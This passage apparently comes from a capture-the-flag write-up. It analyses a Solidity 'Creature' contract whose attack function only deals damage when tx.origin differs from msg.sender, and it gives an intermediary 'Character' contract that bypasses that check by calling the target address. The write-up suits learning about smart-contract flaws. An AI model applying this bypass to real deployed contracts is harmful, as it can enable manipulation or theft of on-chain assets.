 We can see the life points of the creature don't change, so we consult the `aggro` to check if the attack action was realized.

![](./images/Pasted%20image%2020241230003407.png)

We analyze the code to understand why we cannot deal any damage to the creature.

### Analyzing the Creature Contract

We observe the following in the `attack` function:

```
function attack(uint256 _damage) external {
    // When we call the function, this saves the message sender in aggro
    if (aggro == address(0)) {
        aggro = msg.sender;
    }
    // To deal damage, we must be different from aggro
    if (_isOffBalance() && aggro != msg.sender) {
        lifePoints -= _damage;
    } else {
        lifePoints -= 0;
    }
}
// This function checks if we call the attack function from a different
// address than the one used to initiate the transaction
function _isOffBalance() private view returns (bool) {
    return tx.origin != msg.sender;
}
```

Key points:

- `tx.origin`: The address that started the transaction.
- `msg.sender`: Represents the immediate sender of the current call, which could be an external address or contract.

### Problem

We cannot call the `attack` function directly; we must do so through an external contract. The potential contract can be:

```
// SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.13;

contract Character {
    // Address of the creature
    address TARGET = 0xbFd169395Ed9437098b36FF3F3b5cB853485b66f;

    // Function that calls the function in the creature contract
    function attack(uint256 _damage) external {
        // Use encodeWithSignature to call the attack function in the creature contract
        (bool success, ) = TARGET.call(abi.encodeWithSignature("attack(uint256)", _damage));
        // Check if the call was successful
        require(success, "Call failed");
    }
}
```
